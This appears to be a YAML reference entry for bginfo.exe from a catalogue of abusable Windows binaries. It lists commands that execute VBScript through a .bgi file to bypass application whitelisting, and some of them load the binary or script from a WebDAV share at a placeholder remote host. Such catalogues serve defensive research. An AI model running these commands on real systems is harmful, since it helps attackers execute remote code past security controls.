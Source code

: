 ```yaml
---
name: Bginfo.exe
description: Background Information Utility included with SysInternals Suite
functions:
  execute:
    - description: Execute VBscript code that is referenced within the bginfo.bgi file.
      code: bginfo.exe bginfo.bgi /popup /nolicprompt
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows
      privileges: User
      usecase: Local execution of VBScript
    - description: Execute bginfo.exe from a WebDAV server.
      code: \\10.10.10.10\webdav\bginfo.exe bginfo.bgi /popup /nolicprompt
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows
      privileges: User
      usecase: Remote execution of VBScript
    - description: This style of execution may not longer work due to patch.
      code: \\live.sysinternals.com\Tools\bginfo.exe \\10.10.10.10\webdav\bginfo.bgi /popup /nolicprompt
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows
      privileges: User
      usecase: Remote execution of VBScript
  awl bypass:
    - description: Execute VBscript code that is referenced within the bginfo.bgi file.
      code: bginfo.exe bginfo.bgi /popup /nolicprompt
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows
      privileges: User
      usecase: Local execution of VBScript
    - description: Execute bginfo.exe from a WebDAV server.
      code: \\10.10.10.10\webdav\bginfo.exe bginfo.bgi /popup /nolicprompt
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows
      privileges: User
      usecase: Remote execution of VBScript
    - description: This style of execution may not longer work due to patch.
      code: \\live.sysinternals.com\Tools\bginfo.exe \\10.10.10.10\webdav\bginfo.bgi /popup /nolicprompt
      mitreid: T1218
      mitrelink: https://attack.mitre.org/wiki/Technique/T1218
      operatingsystem: Windows
      privileges: User
      usecase: Remote execution of VBScript
resources:
    - resource: https://oddvar.moe/2017/05/18/bypassing-application-whitelisting-with-bginfo/
fullpath:
    - path: No fixed path
detection:
  - IOC: 
acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

